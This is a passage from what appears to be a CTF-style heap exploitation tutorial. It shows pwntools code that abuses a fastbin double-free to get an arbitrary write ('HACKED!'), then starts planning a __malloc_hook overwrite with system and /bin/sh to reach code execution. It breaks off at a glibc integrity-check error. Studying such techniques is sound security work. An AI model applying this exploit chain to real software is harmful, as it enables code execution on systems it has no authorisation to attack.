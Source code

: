 ```python
fastbins
0x30: 0x603030 —▸ 0x603000 —▸ 0x602010 (user) ◂— 0x58585858585858 /* 'XXXXXXX' */
"""

malloc(0x28,b'C'*8) # 3 -> 0x603030 (B)
malloc(0x28,b'D'*8) # 4 -> 0x603000 (A)
malloc(0x28, b'HACKED!') # 0x602010 (user) -> 'XXXXXXX' -> 'HACKED!'


io.interactive()
```

By running above script - 

```bash
$ ./double_free.py 
#...
1) malloc 6/7
2) free
3) target
4) quit
> $ 3

target: HACKED!
```

This confirms we have **arbitrary write capability**. Now let's escalate to full code execution by targeting `__malloc_hook`.


### Exploitation Strategy

#### Step 1: Calculate `__malloc_hook` Address

```python
# Calculate __malloc_hook address from libc base
malloc_hook_addr = libc.symbols['__malloc_hook']
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh\x00'))

log.info(f"__malloc_hook: {hex(malloc_hook_addr)}")
log.info(f"system: {hex(system_addr)}")
log.info(f"/bin/sh: {hex(binsh_addr)}")
```

#### Step 2: Fastbin Dup to Overwrite `__malloc_hook`

If we try to use `__malloc_hook` we will get error!

```txt
   3593               if (__builtin_expect (victim_idx != idx, 0))
 ► 3594                 malloc_printerr ("malloc(): memory corruption (fast)");
   3595               check_remalloced_chunk (av, victim, nb);
```
